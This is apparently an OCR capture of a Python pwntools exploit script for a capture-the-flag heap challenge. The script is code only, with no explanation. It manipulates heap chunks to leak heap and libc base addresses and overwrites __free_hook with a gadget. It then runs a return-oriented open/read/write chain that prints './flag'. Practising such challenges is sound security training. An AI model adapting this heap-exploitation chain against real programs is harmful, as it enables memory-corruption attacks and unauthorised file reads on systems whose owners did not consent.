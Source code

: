 ```py
pack(1, 4, 0xf0, b"a")
pack(1, 5, 0xf0, b"a")
pack(1, 6, 0xf0, b"a")
pack(1, 7, 0xf0, b"a")
pack(1, 8, 0xf0, b"./flag")
for i in range(7):
    pack(4, i, 0, b"a")
pack(4, 7, 0, b"a")
pack(3, 7, 0, b"a")
rn(0x38)
heap_base = u64_ex(rn(8)) - 0xd70
lg("heap_base")
rn(0x50-0x38)
libc_base = u64_ex(rn(8)) - 0x1ecbe0
# mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
magic_gadget = libc_base + 0x0000000000151990
pop_rdi_ret  = libc_base + 0x0000000000023b6a
pop_rsi_ret  = libc_base + 0x000000000002601f
pop_rdx_ret  = libc_base + 0x0000000000142c92
mov_rsp_rdx  = libc_base + 0x000000000005b4d0
pop_4_ret    = libc_base + 0x000000000010feb0
lg("libc_base")
lg("magic_gadget")

payload = p64(libc_base + libc.sym["__free_hook"])
new_pack(2, 6, 0xf0, 8, payload)

payload =  p64(pop_4_ret)
payload += p64(heap_base + 0xbb0)
payload += b"a"*0x10
payload += p64(mov_rsp_rdx)
payload += p64(pop_rdi_ret) + p64(heap_base + 0xe90)
payload += p64(pop_rsi_ret) + p64(0)
payload += p64(pop_rdx_ret) + p64(0)
payload += p64(libc_base+libc.sym.open)
payload += p64(pop_rdi_ret) + p64(3)
payload += p64(pop_rsi_ret) + p64(heap_base + 0xe90)
payload += p64(pop_rdx_ret) + p64(0x100)
payload += p64(libc_base + libc.sym.read)
payload += p64(pop_rdi_ret) + p64(1)
payload += p64(libc_base + libc.sym.write)
lg("len(payload)")

new_pack(1, 9, 0xf0, len(payload), payload)
payload = p64(magic_gadget) + p64(heap_base + 0xbb0)
payload += b"a"*0x10
payload += p64(mov_rsp_rdx)
new_pack(1, 10, 0xf0, len(payload), payload)

pack(4, 9, 0, b"a")

ia()
```
